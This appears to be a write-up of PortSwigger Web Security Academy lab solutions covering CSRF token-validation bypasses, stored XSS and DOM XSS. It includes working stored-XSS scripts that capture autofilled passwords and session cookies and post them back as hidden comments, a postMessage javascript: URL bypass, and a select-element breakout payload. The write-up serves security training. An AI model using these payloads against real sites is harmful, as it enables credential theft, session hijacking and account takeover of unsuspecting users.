


### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br><br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br><br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br><br>
It works even deleting the csrf parameter:
<br><br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br><br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)

### CSRF where token validation depends on token being present
#### Lab
The lab's email change functionality is vulnerable to CSRF.
To solve the lab, use the exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter 

Once logged-in let's inspect the request to change the email address, we can notice that a CSRF token is present
<br><br>
If we try to change the token's value of course we get an error:

    Invalid CSRF token

But if we completely remove the CSRF token parameter from the request we can see that the email is indeed updated. So we can craft the following CSRF payload to update the email without the need of the CSRF token:
<br><br>

We create a simple form to post a request to change the email's user address without the CSRF token, then we submit the form. Save the payload (1), then if you View the exploit (being logged-in) you will see that your email is changed to pippo@disney.com. To solve the lab click Delivery the exploit to the victim (3)

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br><br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br><br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br><br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br><br>
We can retrive the administrator password in the source of the page

### DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 
#### Lab
Inspecting the source code of the lab home page we can see that the following JS code is present
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
Broadly a window object may obtain a reference to another (e.g., via targetWindow = window.opener), and then dispatch a MessageEvent on it with targetWindow.postMessage(). The receiving window is then free to handle this event as needed. The arguments passed to window.postMessage() (i.e., the "message") are exposed to the receiving window through the event object. But here the listener for dispatched message:
```
window.addEventListener('message', function(e)
```
does not implement any efficient security control, since the <b>origin</b> property is not checked and no verification of the received message syntax is implemented. Only a control on the message date is made on the presence of the http or https value, that does not prevent to inject JS command, e.g. the following message will bypass the control
```
alert(0);/*http:*/
```
In example above the http: string is inserted as a comment in JS so it is ignored, but the alert will be triggered. Knowing that we can proceed to craft our payload on the Exploit server:
<br><br>

After haavig stored it (1), I tried to run (2) but I got a not found error. Reloding the exploit I can see that the message is not executed as JS:
<br><br>

Let's try to add the javascript instructions before the print function as follows:
```
onload="this.contentWindow.postMessage('javascript:print();/*http:*/','*')"
```
The second argument, '*', specifies that any targetOrigin is allowed to send messages. Now store again the payload, view the exploit and the print window should appears, then deliver the exploit to the victim.

#### References
+ https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage

### Exploiting cross-site scripting to steal cookies
#### Lab
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. Not having Burp Professional I solved this lab without using the Collaborator server.

The comment field in the post comment form is vulnerable to stroed XSS:
<br><br>

To solve tha without the collaborator server we can inject a payload that will submit a comment post containing her cookie value, to obfuscate a bit the exploit we will write the value inside an hidden div. Follows the source code:
```
<script>
window.onload = function () {
var id = "0a61004a0326625cc19385eb00bd0067";
var d = "csrf=" + document.forms[0].children[0].value + "&postId=2&comment=ciao<div style=visibility:hidden>" + document.cookie + "</div>&name=Mario&email=mario@me.com&website";
fetch("https://"+ id + ".web-security-academy.net/post/comment", {
method: "POST",
mode: "no-cors",
body: d
});
};
</script>
```
The script, once the post 1 page comments is loaded an async POSTrequest (using fetch) is made to submitt a comment for the post having id=2, before to submit the form we have to read the csrf token generated by server.
<br><br>
Once the request is send our exploit is stored into the comments into the post having id=1, once someone visit the page a post comment (id 2) containing the user session cookie will be send inside a hidden div. Visiting the post id 2 page we can see the cookie session of antother user:
<br><br>
Setting the cookie found (<i>please note that the value is different since I had to reload the lab</i>) in our session (1) we can solve the lab. You can verify that we are now administrator visiting the My account page (2)
<br><br>

#### References
+ https://portswigger.net/web-security/cross-site-scripting/stored


### DOM XSS in document.write sink using source location.search inside a select element

#### Lab
The lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function. 

Let's inspect the source of the product page, we can see that a JS script is present, that if a <b>storeId parameter is present into the query string</b> the value is added to the select HTML object
<br><br>
Let's verify if the it works:
<br><br>
Then let's try to verify if the parameter is vulnerable to XSS using the following value as storedId:

    storeId=<%2foption><%2fselect>xxx

The HTML code in injected:
<br><br>

Our final payload will be the following
    
    storeId=%3c%2foption%3e%3c%2fselect%3e%3cscript%3ealert(0)%3b%3c%2fscript%3e